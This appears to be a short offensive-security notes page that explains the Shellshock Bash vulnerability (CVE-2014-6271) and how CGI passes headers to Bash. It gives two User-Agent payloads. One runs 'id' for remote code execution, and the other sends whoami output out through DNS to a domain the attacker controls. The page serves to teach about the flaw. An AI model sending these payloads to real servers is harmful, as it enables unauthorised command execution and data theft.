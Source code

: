 # CVE - Shellshock

Is a critical vulnerability now reported as [_CVE-2014-6271_](https://nvd.nist.gov/vuln/detail/cve-2014-6271) found in the _Bash_ shell, which allows an attacker to execute arbitrary commands by injecting specially crafted environment variables. This affects applications and services that pass external input to _Bash_, such as CGI scripts in web servers.

CGI (Common Gateway Interface) is a standard protocol that defines how web servers communicate with external programs to generate dynamic content. The web server passes input, normally on requests, to a CGI script using environment variables and stdin, then the web server executes that script and sends the output back to the client as a web response.

Here we find how this could be exploited:

* We detected that a the values of headers like _User-Agent_ or _Referer_ are passed to a internal GCI

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># We could craft a payload to generate a RCE to get a bash  
<strong>User-Agent: u() { :; }; echo; echo; /bin/bash -c 'id'
</strong><strong>
</strong><strong># If successful, the command will be executed. Sometimes we will see the reult on the response but in other cases we have to adopt blind techniques
</strong><strong>
</strong># We could to play with a domain we control
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).&#x3C;OurDomain>
</code></pre>
